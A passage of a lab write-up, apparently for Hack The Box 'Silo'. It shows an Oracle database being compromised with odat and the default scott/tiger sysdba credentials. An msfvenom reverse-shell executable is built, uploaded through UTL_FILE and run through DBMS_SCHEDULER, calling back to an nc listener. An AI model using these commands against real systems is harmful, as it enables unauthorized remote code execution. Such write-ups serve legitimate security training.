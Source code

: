 Let’s use odat to read:

```bash
sudo apt install odat
```

```bash
odat utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --test-module

[1] (10.10.10.82:1521): Test if the UTL_FILE library can be used
[1.1] UTL_FILE library ?
[+] OK
```

Let’s try writing a reverse shell and executing it:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.7 LPORT=4444 -f exe > rev.exe
```

Now write the file, set up listener, and execute it:

```bash
odat utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile "C:\temp" rev.exe /home/kali/htb_labs/silo/rev.exe

[1] (10.10.10.82:1521): Put the /home/kali/htb_labs/silo/rev.exe local file in the C:\temp folder like rev.exe on the 10.10.10.82 server
[+] The /home/kali/htb_labs/silo/rev.exe file was created on the C:\temp directory on the 10.10.10.82 server like the rev.exe file

```

```bash
#on attack 
nc -lnvp 4444

odat dbmsscheduler -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --exec "C:\temp\rev.exe"
```

We don’t have normal batch commands?

![image.png]({{ site.baseurl }}/assets/silo/image%201.png)

Let’s check if we are in a restricted shell:

```bash
echo %COMSPEC%

C:\Windows\system32\cmd.exe
```

We are not, maybe the path is missing; let’s try entering full path with command:

```bash
C:\Windows\System32\whoami.exe

```

![image.png]({{ site.baseurl }}/assets/silo/image%202.png)

Let’s add path:

```bash
set PATH=%PATH%;C:\Windows\System32
```

Now commands should be as normal.